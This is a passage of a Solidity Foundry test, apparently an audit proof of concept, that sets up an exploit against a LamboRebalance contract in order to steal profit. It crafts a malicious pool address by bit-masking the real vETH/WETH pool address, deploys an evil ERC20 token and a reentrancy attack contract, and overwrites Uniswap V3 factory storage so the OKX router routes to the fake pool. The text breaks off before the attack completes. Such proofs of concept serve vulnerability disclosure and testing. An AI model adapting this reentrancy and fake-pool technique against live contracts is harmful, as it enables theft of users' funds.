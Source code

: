 ```solidity

    function test_steal_profit_with_malicious_pool_2() public {
        // Initialize the test
        address hacker = makeAddr("hacker");
        address vETHWETHpool = lamboRebalance.uniswapPool();
        
        // Set the block timestamp to ensure consistent attack behavior
        vm.warp(1733645207);
    
        // Label addresses for better stack trace readability
        vm.label(hacker, "Hacker");
        vm.label(address(lamboRebalance), "LamboRebalance");
        vm.label(address(VETH), "VETH");
        vm.label(address(WETH), "WETH");
        vm.label(address(OKXRouter), "OKXRouter");
        vm.label(address(OKXTokenApprove), "OKXTokenApprove");
        vm.label(address(NonfungiblePositionManager), "NonfungiblePositionManager");
        vm.label(address(uniswapV3Factory), "UniswapV3Factory");
        vm.label(vETHWETHpool, "vETH:WETH_pool");
    
        // Start the attack by impersonating the hacker
        vm.startPrank(hacker);
    
        // Calculate the mask for the malicious pool
        // There are multiple possible masks and malicious addresses that can make the attack work
        // Here, we choose an arbitrary mask between all the possible ones to make the attack work
        uint256 maliciousPoolMask = uint256(uint160(~uint160(vETHWETHpool)) & 1111);
        uint256 maliciousEvil_vETH_pool_u256 = uint256(uint160(vETHWETHpool)) | (maliciousPoolMask);
        address maliciousEvil_vETH_pool = address(uint160(maliciousEvil_vETH_pool_u256));
        vm.label(address(uint160(maliciousEvil_vETH_pool)), "Malicious_pool");
    
        // Create an evil ERC20 token to be used for creating a malicious pool
        // Mint type(uint96).max to the hacker
        EvilERC20 evilERC20 = new EvilERC20();
        ReentrancyAttack attack = new ReentrancyAttack(address(VETH), address(WETH), address(OKXRouter), address(OKXTokenApprove), address(lamboRebalance), vETHWETHpool);
        evilERC20.setReentrancyAddress(address(attack));
    
        // Deploy the Uniswap V3 pool mock and set it to the malicious pool address
        // NOTE: This prevent me to mine a real univ3 pool address and facilitate the test as the time constraint is short
        UniswapV3PoolMock uniswapV3PoolMock = new UniswapV3PoolMock(address(evilERC20), address(VETH));
        vm.etch(maliciousEvil_vETH_pool, address(uniswapV3PoolMock).code);
        vm.copyStorage(address(uniswapV3PoolMock), maliciousEvil_vETH_pool);
        require(maliciousEvil_vETH_pool.code.length > 0, "Malicious pool code length is 0");
    
        // Set the token balances of the malicious pool to simulate real-world conditions of minting a position on it
        // 1 wei of VETH and 4000 ether of evilERC20 are sufficient for the attack (this is worth nothing in terms of value)
        deal(VETH, address(maliciousEvil_vETH_pool), 1 wei);
        EvilERC20(address(evilERC20)).transfer(address(maliciousEvil_vETH_pool), 4000 ether);

        // Populate both mappings in the factory so the OKXRouter can find the malicious pool
        // This simulates the scenario where the malicious address is mined and deployed officially by the UniswapV3Factory
        bytes32 getPoolSlot = keccak256(abi.encode(100, keccak256(abi.encode(address(VETH), keccak256(abi.encode(address(evilERC20), 5))))));
        vm.store(address(uniswapV3Factory), getPoolSlot, bytes32(uint256(uint160(maliciousEvil_vETH_pool))));
```
